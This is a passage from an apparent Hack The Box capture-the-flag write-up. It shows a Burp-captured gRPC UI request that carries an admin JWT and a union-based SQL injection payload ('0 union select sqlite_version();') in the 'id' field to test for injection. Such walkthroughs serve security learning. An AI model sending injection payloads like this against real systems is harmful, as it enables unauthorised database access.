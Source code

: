 ![grpcui-result](/assets/img/htb-pc-grpcui-result.png)

After trying some paths, we catch the request through burp and tried to display the `sqllite` version to see if the application is vulnerable to SQL injection.

### SQL injection
#### SQLlite version check
##### Request
```
POST /invoke/SimpleApp.getInfo HTTP/1.1
Host: 127.0.0.1:46799
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
x-grpcui-csrf-token: g-zfLPm2JYmG9OLqhKESGEgJ0nm9vorOtXiSr1RVx2M
X-Requested-With: XMLHttpRequest
Content-Length: 222
Origin: http://127.0.0.1:46799
Connection: close
Referer: http://127.0.0.1:46799/
Cookie: lang=en-US; _grpcui_csrf_token=g-zfLPm2JYmG9OLqhKESGEgJ0nm9vorOtXiSr1RVx2M
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

{
    "metadata": [
        {
            "name": "token",
            "value": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYWRtaW4iLCJleHAiOjE2ODQ5MzA2ODZ9.agBwQmbZ56OaxHX0sbm7gbCvx-Hp-PFNxE3P4sD4Nbg"
        }
    ],
    "data": [
        {
            "id": "0 union select sqlite_version();"
        }
    ]
}
```

